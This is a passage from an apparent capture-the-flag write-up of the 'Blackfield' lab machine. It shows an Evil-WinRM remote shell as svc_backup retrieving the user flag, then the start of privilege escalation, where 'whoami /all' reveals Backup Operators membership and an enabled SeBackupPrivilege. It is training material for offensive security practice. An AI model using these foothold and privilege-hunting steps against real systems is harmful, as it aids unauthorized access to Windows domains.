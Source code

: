 ```shell


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/2/2020   4:51 AM             34 user.txt


**Evil-WinRM** PS C:\Users\svc_backup\Desktop> type user.txt
39271013f2bb068c6e98b7334486f640
```
And we find the user.txt in the Desktop folder.

## Privilege Escalation

```shell
**Evil-WinRM** PS C:\Users\svc_backup\Desktop> whoami /all
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```